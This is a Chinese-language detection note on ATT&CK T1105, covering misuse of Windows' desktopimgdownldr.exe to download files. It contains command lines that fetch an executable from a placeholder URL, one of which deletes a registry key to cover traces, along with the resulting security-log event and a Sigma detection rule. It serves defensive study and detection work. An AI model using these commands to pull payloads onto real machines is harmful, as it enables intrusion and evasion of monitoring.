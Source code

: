 # T1105-win-入口工具转移-desktopimgdownldr.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

desktopimgdownldr.exe位于Win10的system32文件夹中，原本用于设置锁定屏幕或桌面背景图像的。

**路径:**

```bash
- c:\windows\system32\desktopimgdownldr.exe
```

普通用户可以用以下命令来实现文件下载：

```bash
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://url/xxx.exe /eventName:desktopimgdownldr
```

管理员会多写一个注册表项，所以管理员的命令如下：

```bash
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f
```

用例：从Web服务器下载任意文件
所需权限：用户
操作系统：Windows 10

## 检测日志

windows安全日志

## 测试复现

```bash
C:\Users\liyang\Desktop\asptest>set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x24a4

新进程名称: C:\Windows\System32\desktopimgdownldr.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x2588

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: desktopimgdownldr.exe  /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Suspicious Desktopimgdownldr Target File

id: fc4f4817-0c53-4683-a4ee-b17a64bc1039

status: experimental

description: Detects a suspicious Microsoft desktopimgdownldr file creation that stores a file to a suspicious location or contains a file with a suspicious extension

author: Florian Roth

date: 2020/07/03

references:

- https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

- https://twitter.com/SBousseaden/status/1278977301745741825

logsource:

product: windows

category: file_event

tags:

- attack.defense_evasion

- attack.t1105

detection:

selection:

Image|endswith: svchost.exe

TargetFilename|contains: '\Personalization\LockScreenImage\'

filter1:

TargetFilename|contains: 'C:\Windows\'

filter2:

TargetFilename|contains:

- '.jpg'

- '.jpeg'

- '.png'

condition: selection and not filter1 and not filter2

fields:

- CommandLine

- ParentCommandLine

falsepositives:

- False positives depend on scripts and administrative tools used in the monitored environment

level: high
```

### 建议

从Sigma和elastic给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

command_and_control_remote_file_copy_desktopimgdownldr

<https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml>

win_susp_desktopimgdownldr_file

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/win_susp_desktopimgdownldr_file.yml>

Desktopimgdownldr.exe

<https://lolbas-project.github.io/lolbas/Binaries/Desktopimgdownldr/>
